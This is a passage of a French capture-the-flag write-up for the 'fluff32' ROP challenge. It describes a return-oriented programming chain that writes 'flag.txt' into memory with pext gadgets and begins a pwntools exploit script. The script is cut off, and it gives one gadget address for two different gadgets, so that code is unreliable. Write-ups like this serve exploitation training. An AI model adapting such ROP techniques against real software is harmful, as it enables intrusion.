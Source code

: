 Pour ecrire 'f' dans data :
- pop ebp pour charger le masque pext de 'f'
- mask('f') : 0xb4b
- gadget pext : edx = 0x66
- pop ecx; bswap ecx; ret ; charge ecx avec l'adresse cible
- swap(@data) : adresse cible en big endian
- xchg byte [ecx], dl => ecriture du caractère

On dont donc itérer sur chaque caractère de 'flag.txt' pour écrire data .data.

Et le synoptic global :

- Pour chaque byte de 'flag.txt':
    - Ropchaine d'ecriture pour @data+index du byte
- usefulFunction+14 pour "call print_file"
- @data



### Script python


```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *
import time

# break ret de pwnme
gs='''
b *pwnme+177
c
'''

# Set up pwntools for the correct architecture
elf =  ELF('fluff32')
context.binary=elf

# Offset avant ecrasement de l'adresse de retour
offset=0x2c

def pext_mask(src, dest):
    mask=0
    bmask=1
    while dest:
        if dest&1 == src&1:
            mask=mask | bmask
            dest>>=1
            # print(bin(mask)[2:])
        src>>=1
        bmask<<=1
    return mask

usefulFunction=elf.symbols['usefulFunction']
print_file=usefulFunction+12

# ----- Gadgets -----
# mov eax, ebp
# mov ebx, 0xb0bababa
# pext edx, ebx, eax
# mov eax, 0xdeadbeef
# ret
g_pext = 0x08048543

# 0x08048543 : mov dword ptr [edi], ebp ; ret
g_write = 0x08048543

```